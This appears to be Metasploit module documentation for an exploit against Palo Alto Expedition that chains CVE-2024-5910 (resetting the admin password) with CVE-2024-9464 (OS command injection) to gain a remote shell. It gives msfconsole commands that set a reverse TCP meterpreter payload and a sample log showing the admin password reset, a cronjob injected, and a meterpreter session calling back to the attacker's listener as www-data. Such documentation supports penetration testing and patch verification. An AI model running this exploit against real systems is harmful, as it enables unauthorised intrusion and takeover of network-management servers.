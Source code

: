 ## Vulnerable Application

This module exploits two vulnerabilities in Palo Alto Expedition to obtain a remote shell. The first vulnerability, CVE-2024-5910, allows to
reset the password of the admin user. The second vulnerability, CVE-2024-9464, is an authenticated OS command injection.

When credentials are provided, this module will only exploit the second vulnerability. If no credentials are provided, the module will
first try to reset the admin password and then perform the OS command injection. In a default installation, commands will get executed in
the context of www-data.

## Testing

The software can be obtained from
[the vendor](https://live.paloaltonetworks.com/t5/expedition/ct-p/migration_tool).

Installation instructions are available [here]
(https://live.paloaltonetworks.com/t5/expedition-articles/expedition-documentation/ta-p/215619?attachment-id=13781).

**Successfully tested on**

- Expedition v1.2.91 on Ubuntu Server 20.04.1.

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > msf6 > use exploit/linux/http/paloalto_expedition_rce 
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/paloalto_expedition_rce) > set RHOSTS <IP>
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit
```

You should get a meterpreter session in the context of `www-data`.

## Options

### USERNAME
Username for authentication, if available.

### PASSWORD
Password for the associated user.


## Scenarios

Running the exploit against Expedition v1.2.91 on Ubuntu Server 20.04.1, using curl or wget as a fetch command, should result in an output
similar to the following:

```
msf6 exploit(linux/http/paloalto_expedition_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Admin password successfully restored to default value paloalto (CVE-2024-5910).
[+] Successfully authenticated
[*] Version retrieved: 1.2.91
[*] Vulnerable to CVE-2024-5910 and appears to be vulnerable to CVE-2024-9464.
[+] The target appears to be vulnerable.
[*] Adding a new cronjob...
[*] Injecting OS command...
[*] Sending stage (3045380 bytes) to 192.168.137.203
[*] Meterpreter session 1 opened (192.168.137.204:4444 -> 192.168.137.203:49006) at 2024-10-13 19:30:10 -0400
[*] cleanup file: /tmp/j
[*] Check thy shell.

meterpreter > sysinfo 
Computer     : 192.168.137.203
OS           : Ubuntu 20.04 (Linux 5.4.0-42-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: www-data
meterpreter > 
```
